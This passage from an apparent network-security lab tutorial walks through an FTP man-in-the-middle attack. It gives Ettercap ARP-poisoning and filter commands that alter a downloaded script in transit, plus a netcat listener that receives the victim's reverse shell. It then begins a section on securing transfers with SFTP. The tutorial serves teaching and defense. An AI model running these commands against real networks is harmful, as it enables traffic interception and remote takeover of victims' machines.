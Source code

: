 1. Save the script as filter.ecf
    
2. Compile the filter using Ettercap’s built-in compiler:
    
    ```
    etterfilter filter.ecf
    ```

3. Launch Ettercap in ARP poisoning mode to intercept the traffic between the FTP client and server:
    
    ```
    ettercap -Tq -i eth0 -F filter.ef -M arp:remote //victim_IP/ //FTP_server_IP/
    ```
    
    - -Tq: Runs Ettercap in text mode with quiet output.
        
    - -i eth0: Specifies the network interface.
        
    - -F filter.ef: Loads the compiled filter.
        
    - -M arp:remote: Enables ARP poisoning for man-in-the-middle attacks.
        
4. When the victim downloads the system.sh file, Ettercap modifies its contents in real time.
	
![](/Screenshots/ftp_pics/modified.png)
3. Set up a listener on the attack machine:
    
    ```
    nc -lvnp 4444
    ```
    
    - The attacker waits for a connection.
    
4. The victim executes the modified script, granting the attacker a shell.
	
    - Once executed, the system unknowingly connects back to the attacker's machine, providing remote access.
    
![](/Screenshots/ftp_pics/victim.png)
	
![](/Screenshots/ftp_pics/attacker.png)

## **5. Securing File Transfers with SFTP**

### **5.1 Setting Up SFTP**

SFTP (Secure File Transfer Protocol) is a secure alternative to FTP, providing encrypted file transfer capabilities. Unlike FTP, which transmits data in plaintext, SFTP ensures that all data transferred between the client and server is encrypted, preventing unauthorized access and man-in-the-middle (MITM) attacks.

To configure SFTP, you'll first need to ensure that SSH (Secure Shell) is installed and configured on the server. SSH serves as the foundation for SFTP, as SFTP relies on SSH for secure communication.

#### 1. **Install and Configure SSH (if not already installed)**
